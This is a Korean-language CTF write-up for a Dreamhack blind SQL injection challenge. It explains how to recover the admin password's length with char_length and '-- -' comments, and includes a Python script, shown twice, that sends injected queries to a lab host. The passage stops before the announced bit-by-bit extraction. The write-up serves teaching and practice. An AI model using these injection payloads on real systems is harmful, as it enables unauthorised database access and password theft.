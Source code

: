 테이블의 이름 : users

테이블에 있는 컬럼 : idx, uid, upw

idx는 저절로 생성되는 auto_increment 인덱스값이고 uid는 id 를 의미하는 128바이트값, upw는 password를 의미하는 128바이트 값이다.

그리고 이 테이블에 저장된 uid,upw 값을 보면 (admin, flag),(guest,guest),(test,test)가 있다. 즉 우리가 실행할 SQL Query는 “SELECT * FROM users Where uid=’입력값’;” 이므로 uid가 admin인 값을 가져오고 flag값을 알아내면 된다.

# 문제 접근

먼저 글자수를 알아야한다.

글자수를 알기 위해서 MSSQL에서는 length함수가 존재하지만 length함수는 바이트로 변환한 결과값을 반환하기때문에 아스키코드로(1바이트)만 되어있지 않다면 정확한 바이트 수가 아닌 다른 값이 나올 수 있다. 문제에서 다음과 같은 힌트를 줬다.

**관리자의 비밀번호는 "아스키코드"와 "한글"로 구성되어 있습니다.**

한글의 경우 아스키코드와 다르게 인코딩 값에 따라서 바이트로 변환했을 때 바이트가 달라진다. utf8로 인코딩하고 있으므로 UTF-8을 기준으로 하면 UTF -8 의 경우는 한글이 3바이트로 표현된다. 따라서 바이트로 변환한 길이 값을 리턴하는 length함수가 아닌 char_length함수로 패스워드의 길이를 알아내야한다.

“SELECT * FROM users Where uid=’admin’ and char_length(upw) = {password_length} -- -” 쿼리를 이용해서 패스워드의 길이를 알아낼 수 있다.

## 주석 처리 시 -- 가 아닌 -- -를 써주는 이유

주석 처리를 할 때 한줄 주석 시에 -- 뒤에 값이 존재해야지만 주석 처리가 정상적으로 이루어진다. 따라서 -- 뒤에 -가 아닌 다른 값 a나 b 나 1같은 값들을 넣어주어도 정상적으로 주석 처리가 된다.

![주석처리.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6c13c77a-26cf-4888-97fd-177b2bdea956/%EC%A3%BC%EC%84%9D%EC%B2%98%EB%A6%AC.png)

주석을 넣어줄 때 -- -가 아닌 -- 1로 넣어주어도 정상적으로 주석처리가 되어 SQL Injection이 이루어진 모습이다.

```python
import requests

password_len=0
host="http://host3.dreamhack.games:19347"

while True:
    password_len+=1
    query=f"admin' and char_length(upw) = {password_len}-- -"
    url=f'{host}/?uid={query}'
    response=requests.get(url)
  
    if "exists" in response.text :
        break
    print(password_len)
# 패스워드 길이 알아냄.
```

이제 패스워드의 길이를 알아냈으므로 각 글자를 비트로 변환했을 때 비트의 길이 수를 알아내야 한다. 각 바이트값을 알아내지 않고 비트로 하는 이유는 한글의 경우 utf-8이면 3바이트이기 때문에 2의 24승까지 브루트포스로 알아내는 것보다 24번의 비트 알아내는 과정을 통해 알아내는 것이 더 빠르기 때문이다.

```python
import requests

password_len=0
host="http://host3.dreamhack.games:19347"

while True:
    password_len+=1
    query=f"admin' and char_length(upw) = {password_len}-- -"
    url=f'{host}/?uid={query}'
    response=requests.get(url)
  
    if "exists" in response.text :
        break
```